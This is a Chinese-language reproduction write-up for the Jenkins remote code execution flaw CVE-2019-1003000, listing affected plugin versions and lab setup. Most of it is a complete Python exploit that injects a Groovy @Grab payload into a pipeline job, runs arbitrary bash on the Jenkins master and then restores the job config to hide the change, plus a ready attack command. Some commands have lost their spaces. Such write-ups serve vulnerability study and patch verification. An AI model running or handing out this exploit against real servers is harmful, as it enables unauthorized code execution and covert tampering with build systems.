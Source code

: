 # CVE-2019-1003000 Jenkins 远程代码执行漏洞

### 一、漏洞简介

该漏洞存在于Declarative Plugin 1.3.4.1之前的版本, Groovy Plugin 2.61.1之前的版本以及 Script Security Plugin 1.50之前的版本。该漏洞通过将AST转换注释（如@Grab）应用于源代码元素，可以在脚本编译阶段避免脚本安全沙箱保护。所以会造成具有“Overall/Read”权限的用户或能够控制SCM中的Jenkinsfile或者sandboxed Pipeline共享库内容的用户可以绕过沙盒保护并在Jenkins主服务器上执行任意代码。

### 二、漏洞影响

Declarative Plugin < 1.3.4.1

Groovy Plugin < 2.61.1

Script Security Plugin < 1.50

### 三、复现过程

环境搭建


```bash
gitclone https://github.com/ianxtianxt/cve-2019-1003000-jenkins-rce-poc.git

cdcve-2019-1003000-jenkins-rce-poc

pipinstall -r requirements.txt

cdsample-vuln

./run.sh
```

输入账号密码user1:user1

![](images/15890735450067.png)


poc进行攻击



```
pythonexploit.py –url http://url:8080 –job my-pipeline –usernameuser1 –password user1 –cmd “whoami”
```

![](images/15890735803646.png)


![](images/15890735839552.png)


**poc**


```python
#!/usr/bin/python

# Author: Adam Jordan
# Date: 2019-02-15
# Repository: https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc
# PoC for: SECURITY-1266 / CVE-2019-1003000 (Script Security), CVE-2019-1003001 (Pipeline: Groovy), CVE-2019-1003002 (Pipeline: Declarative)


import argparse
import jenkins
import time
from xml.etree import ElementTree

payload = '''
import org.buildobjects.process.ProcBuilder
@Grab('org.buildobjects:jproc:2.2.3')
class Dummy{ }
print new ProcBuilder("/bin/bash").withArgs("-c","%s").run().getOutputString()
'''


def run_command(url, cmd, job_name, username, password):
    print '[+] connecting to jenkins...'
    server = jenkins.Jenkins(url, username, password)

    print '[+] crafting payload...'
    ori_job_config = server.get_job_config(job_name)
    et = ElementTree.fromstring(ori_job_config)
    et.find('definition/script').text = payload % cmd
    job_config = ElementTree.tostring(et, encoding='utf8', method='xml')

    print '[+] modifying job with payload...'
    server.reconfig_job(job_name, job_config)
    time.sleep(3)

    print '[+] putting job build to queue...'
    queue_number = server.build_job(job_name)
    time.sleep(3)

    print '[+] waiting for job to build...'
    queue_item_info = {}
    while 'executable' not in queue_item_info:
        queue_item_info = server.get_queue_item(queue_number)
        time.sleep(1)

    print '[+] restoring job...'
    server.reconfig_job(job_name, ori_job_config)
    time.sleep(3)

    print '[+] fetching output...'
    last_build_number = server.get_job_info(job_name)['lastBuild']['number']
    console_output = server.get_build_console_output(job_name, last_build_number)

    print '[+] OUTPUT:'
    print console_output


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Jenkins RCE')

    parser.add_argument('--url', help='target jenkins url')
    parser.add_argument('--cmd', help='system command to be run')
    parser.add_argument('--job', help='job name')
    parser.add_argument('--username', help='username')
    parser.add_argument('--password', help='password')

    args = parser.parse_args()

    run_command(args.url, args.cmd, args.job, args.username, args.password)
```


参考链接

https://www.freebuf.com/column/197026.html